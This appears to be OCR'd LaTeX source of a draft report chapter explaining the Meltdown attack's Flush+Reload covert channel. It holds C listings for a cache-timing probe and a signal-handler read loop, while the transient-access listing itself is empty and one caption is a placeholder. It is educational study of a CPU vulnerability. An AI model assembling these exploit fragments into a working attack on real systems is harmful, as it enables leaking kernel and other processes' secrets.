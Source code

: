\documentclass[a4paper,oneside,openright] {scrreprt}
\begin{document}
\begin{lstlisting}[language=C, caption=Transient Instruction Sequence of Meltdown, label={lst:tsx}]
    
\end{lstlisting}

\subsection{Building a Covert Channel}
\label{ch:intro:motivation:A}

Listing ~\ref{lst:flushAndReload} contains the Flush+Reload implementation of Meltdown. 
The reload instruction of the pointer \texttt{ptr} in line 5 is wrapped 
by time measurements utilizing the intrinsic instruction for reading the time-stamp counter of the CPU ~\cite{intelintrinsics}. 
Depending on the measured time the value is assumed to be cached if it is smaller
than the \texttt{cache\_miss\_threshold} which has to be calculated in advance.
In line 8 \texttt{ptr} is flushed with an underlying intrinsic instruction called \texttt{clflush} ~\cite{intelintrinsics}
so that it no longer resides in the cache.

\begin{lstlisting}[language=C, caption=Meltdown: Flush+Reload, label={lst:flushAndReload}]
static int __attribute__((always_inline)) flush_reload(void *ptr) {
    uint64_t start = 0, end = 0;
  
    start = rdtsc();
    maccess(ptr);
    end = rdtsc();
  
    flush(ptr);
  
    if (end - start < config.cache_miss_threshold) {
      return 1;
    }
    return 0;
}
\end{lstlisting}

\subsection{Covert Channel Creation}
\label{ch:intro:motivation:A}

\begin{lstlisting}[language=C, caption=Meltdown: XXX, label={lst:reload}]
int __attribute__((optimize("-Os"), noinline)) libkdump_read_signal_handler() {
    size_t retries = config.retries + 1;
    uint64_t start = 0, end = 0;
  
    while (retries--) {
      if (!setjmp(buf)) {
        MELTDOWN;
      }
  
      int i;
      for (i = 0; i < 256; i++) {
        if (flush_reload(mem + i * 4096)) {
          if (i >= 1) {
            return i;
          }
        }
        sched_yield();
      }
      sched_yield();
    }
    return 0;
}
\end{lstlisting}
\end{document}
